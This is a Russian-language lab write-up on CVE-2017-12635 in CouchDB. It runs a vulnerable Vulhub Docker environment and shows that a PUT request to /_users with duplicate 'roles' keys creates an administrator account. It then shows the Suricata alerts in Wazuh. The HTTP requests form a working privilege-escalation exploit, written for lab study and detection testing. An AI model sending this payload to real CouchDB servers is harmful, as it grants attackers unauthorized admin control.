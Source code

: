 # CVE-2017-12635

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-12635](https://nvd.nist.gov/vuln/detail/CVE-2017-12635)
* [https://docs.couchdb.org/en/stable/cve/2017-12635.html](https://docs.couchdb.org/en/stable/cve/2017-12635.html)

Из-за различий в парсере JSON CouchDB, основанном на Erlang, и парсере JSON, основанном на JavaScript, возможно предоставление документов \_users с дублирующимися ключами для ролей, используемых для контроля доступа в базе данных, включая роль \_admin, обозначающей административных пользователей.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5984/\_utils/ будет доступна страница авторизации CouchDB

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Для добавления пользователя можно отправить соответствующий запрос:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: ваш-ip:5984
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 92

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}	
```

Но после его отправки мы получим ответ, что только администратор может выставлять роли пользователям&#x20;

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Но, если добавить дополнительное пустое поле "roles", то можно обойти ограничение

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: ваш-ip:5984
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Был создан пользователь vulhub с паролем vulhub с ролью администратора:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации CouchDB RCE&#x20;

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
